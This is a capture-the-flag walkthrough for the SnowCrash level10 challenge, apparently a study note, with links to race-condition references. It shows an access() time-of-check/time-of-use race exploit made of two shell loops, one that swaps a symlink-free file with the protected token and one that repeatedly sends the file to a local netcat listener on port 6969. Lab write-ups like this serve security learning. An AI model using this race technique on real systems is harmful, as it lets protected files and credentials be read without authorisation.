 ## Walkthrough :

+ i started by executing **./level10**, this prints the usage 
```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```
+ tryied **strings level10** , the server is trying to connect to a host in 6969 port.
+ launched **netstat -l** the port wasn't open. so i opened it using :
```
nc -lk 6969
```
* i noticed the use of **access function** 


```
#!/bin/sh

while true
do
	mv token tmp
	mv file token
	mv tmp file
done
```

```
#!/bin/sh

while true
do
	./level10 file 0.0.0.0
done
```


## Ressources :
+ [race condition](https://web.ecs.syr.edu/\~wedu/Teaching/IntrCompSec/LectureNotes_New/Race_Condition.pdf)  
+ [access() Security Hole](https://stackoverflow.com/questions/7925177/access-security-hole)